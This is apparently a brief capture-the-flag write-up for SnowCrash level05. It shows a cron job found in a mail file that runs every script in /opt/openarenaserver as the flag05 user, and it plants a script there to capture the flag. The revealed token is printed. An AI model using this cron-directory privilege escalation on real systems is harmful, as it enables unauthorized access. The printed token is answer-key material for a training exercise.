 as we log to our session we get mail notification

level05@10.11.100.161's password: 
You have new mail.

level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done


vi /opt/openarenaserver/getflag
//  echo $(getflag) > /tmp/getflag

level05@SnowCrash:~$ cat /tmp/getflag
Check flag.Here is your token : viuaaale9huek52boumoomioc